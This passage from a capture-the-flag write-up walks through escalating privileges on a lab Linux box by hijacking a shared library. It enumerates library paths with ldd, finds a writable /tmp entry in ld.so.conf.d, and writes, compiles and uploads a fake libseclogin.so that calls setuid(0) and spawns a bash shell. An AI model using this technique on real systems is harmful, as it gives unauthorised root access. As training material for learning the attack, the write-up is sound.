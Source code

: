 Based on this list our /usr/lib/linseclogin.so will be loaded at point 6, this potentially gives us 5 chances (or misconfigurations) to jump in before the application loads the real shared object library.

Options 1. and 2. might not work for us, as they need to be exploited at link and run time, but there is a chance we can set the `LD_RUN_PATH` or `LD_LIBRARY_PATH` environment variables.

First we need to do a little bit of prep work so that we can confirm our exploit and hijack of the library path has worked. We use the tool `ldd` against `myexec` to see where the current library is being loaded from as well as any current values for the environment variables, and if we are able to set the value to something custom, we also look at the existing `ldd` config to see if there are any other folders we can upload our exploit library to.
```
genevieve@dab:~$ ldd /usr/bin/myexec
	linux-vdso.so.1 =>  (0x00007fffb79f3000)
	libseclogin.so => /usr/lib/libseclogin.so (0x00007f46640c4000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4663cfa000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f46642c6000)

genevieve@dab:~$ echo $LD_RUN_PATH

genevieve@dab:~$ echo $LD_LIBRARY_PATH

genevieve@dab:~$ echo $DT_RUN_PATH

genevieve@dab:~$ export LD_LIBRARY_PATH=/those/guys
genevieve@dab:~$ echo $LD_LIBRARY_PATH
/those/guys
genevieve@dab:~$ export LD_LIBRARY_PATH=
genevieve@dab:~$ 
genevieve@dab:~$ ls /etc/ld.so.conf.d/
fakeroot-x86_64-linux-gnu.conf  test.conf                       
libc.conf                       x86_64-linux-gnu.conf           
genevieve@dab:~$ cat /etc/ld.so.conf.d/test.conf 
/tmp
```

We now know that (1) we can set the environment variable to anything we like, and (2) that there is a `test.conf` file pointing to `/tmp` in the `ld.conf.d/` directory. 
With all this information we have enough to start building and deploying our malicious shared object library.

We start off with a simple SUID shell application we have used before:
```
root@kali: cat libseclogin.c
#include <stdio.h>
void seclogin(void){
 setuid(0);
 setgid(0);
 system("/bin/bash", NULL, NULL);
}
```

We changed the function name from `main()` to `seclogin`, because that is the function myexec told us it tried to run when we gave it the correct password. From there we compile it into a `.so` file with gcc, this can be done either on the target machine or on our local machine and copied over to the targets `/tmp` folder:
```
root@kali: gcc -shared -fPIC -o libseclogin.so libseclogin.c
root@kali: scp libseclogin.so genevieve@10.10.10.86:/tmp/libseclogin.so
```
